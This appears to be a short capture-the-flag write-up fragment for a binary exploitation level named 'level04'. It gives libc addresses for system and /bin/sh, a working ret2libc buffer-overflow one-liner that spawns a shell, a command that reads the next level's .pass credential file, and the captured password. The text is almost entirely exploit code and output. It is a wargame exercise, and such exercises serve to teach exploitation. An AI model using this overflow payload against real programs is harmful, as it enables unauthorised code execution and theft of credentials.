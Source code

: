 


system   0xf7e6aed0
/bin/sh  0xf7f897ec


( python -c 'print("A" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7")' ; echo "cat /home/users/level05/.pass" ) | ./level04

3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
